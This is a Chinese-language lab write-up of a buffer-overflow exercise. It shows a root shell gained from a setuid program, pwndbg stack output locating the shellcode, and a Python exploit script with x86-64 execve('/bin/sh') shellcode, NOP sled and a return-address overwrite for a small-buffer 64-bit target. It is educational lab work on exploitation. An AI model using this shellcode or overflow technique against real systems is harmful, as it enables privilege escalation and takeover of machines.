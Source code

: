 成功获得root权限shell：

```shell
❯ python3 exploit-L3.py
b'\x8c\xd6\xff\xff\xff\x7f\x00\x00'
❯ ./stack-L3
Input size: 517
# whoami                                                                       
root
# exit                                                                         
```

### Task6：攻击64位程序（buffer很小）

由于buffer size变小，不足以插入shellcode，可以考虑利用在main函数中参数中出现的shellcode。gdb调试如下，记录shellcode的所在地址，令`ret=0x7fffffffdca0 + 220`，即可成功跳转到shellcode

```shell
pwndbg> stack 70
00:0000│ rsp 0x7fffffffdab0 —▸ 0x7fffffffddf8 —▸ 0x7fffffffe18d ◂— '/home/bronya/Documents/SJTU/lab/buffer-overflow/setuid/Labsetup/code/stack-L4-dbg'
01:0008│     0x7fffffffdab8 ◂— 0x100000000
02:0010│     0x7fffffffdac0 ◂— 0x9090909090909090
03:0018│     0x7fffffffdac8 ◂— 0x9090909090909090
04:0020│     0x7fffffffdad0 ◂— 0x7fffffffd6909090
05:0028│     0x7fffffffdad8 ◂— 0x9090909090900000
06:0030│     0x7fffffffdae0 ◂— 0x9090909090909090
... ↓        55 skipped
3e:01f0│     0x7fffffffdca0 ◂— 0x622fb84852d23148
3f:01f8│     0x7fffffffdca8 ◂— 0x485068732f2f6e69 ('in//shPH')
40:0200│     0x7fffffffdcb0 ◂— 0x48e689485752e789
41:0208│     0x7fffffffdcb8 ◂— 0x9090050f3bb0c031
42:0210│     0x7fffffffdcc0 ◂— 0x7f9090909090
43:0218│     0x7fffffffdcc8 ◂— 0x64 /* 'd' */
44:0220│     0x7fffffffdcd0 ◂— 0x20500001000
45:0228│     0x7fffffffdcd8 —▸ 0x5555555592a0 ◂— 0xfbad2488

```

`python脚本如下`

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - 7 - len(shellcode)            # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0x7fffffffdca0 + 220      # Change this number 
offset = 10+8              # Change this number 

L = 8     # Use 4 for 32-bit address and 8 for 64-bit address
# content[0:offset+L] = (ret).to_bytes(L,byteorder='little')*29
```